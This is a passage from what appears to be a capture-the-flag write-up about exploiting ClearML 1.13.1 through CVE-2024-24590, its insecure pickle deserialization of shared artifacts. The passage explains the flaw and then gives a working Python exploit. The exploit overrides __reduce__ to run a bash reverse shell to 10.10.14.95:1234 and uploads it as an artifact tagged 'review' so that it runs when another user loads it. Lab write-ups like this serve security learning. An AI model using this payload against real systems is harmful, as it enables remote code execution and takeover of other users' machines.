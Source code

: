 At the bottom right, we will see the following text.

```
WebApp: 1.13.1-426 • Server: 1.13.1-426 • API: 2.27
```

By searching for vulnerabilities in this version of ClearML (1.13.1), we discover the cve [CVE-2024-24590](https://www.cve.org/CVERecord?id=CVE-2024-24590).

---

**What does this vulnerability consist of?**

*This vulnerability exploits the fact that ClearML uses the Python utility `Pickle`, which is used to serialize Python objects.*

*Artifacts shared through ClearML must be serialized with `Pickle`. So when the `get` method is used to load an artifact that has been shared with you, it is deserialized and loaded into memory, allowing the artifact's author to execute code on the machine of the person who loaded it.*

*You can find more information about this vulnerability [here](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/#CVE-2024-24590).*

* Serialize: Convert an object into a format that can be stored or transmitted.

---

The experiment uses `get()` on all tasks tagged with review, so we can create a task that exploits this vulnerability, tag it with `review`, and upload it to the server.

First, we will need to create the task with `Task.init()` and then upload it with `upload_artifact()`. You can find information on how to use these methods in the [official ClearML documentation](https://clear.ml/docs/latest/docs/references/sdk/task/).

We’ll write a class that overwrites the `__reduce__()` method to open a reverse shell. This method defines how the object should be serialized and deserialized, so it will be executed when `ClearML` deserializes it.

* This script should be created in the virtual environment that was previously set up with the ClearML configuration.

```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.10.14.95/1234 0>&1"',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='Just an artefact', tags=['review'], output_uri=True)

task.upload_artifact(name='revshell', artifact_object=command, wait_on_upload=True, extension_name='.pkl', auto_pickle=True)
```
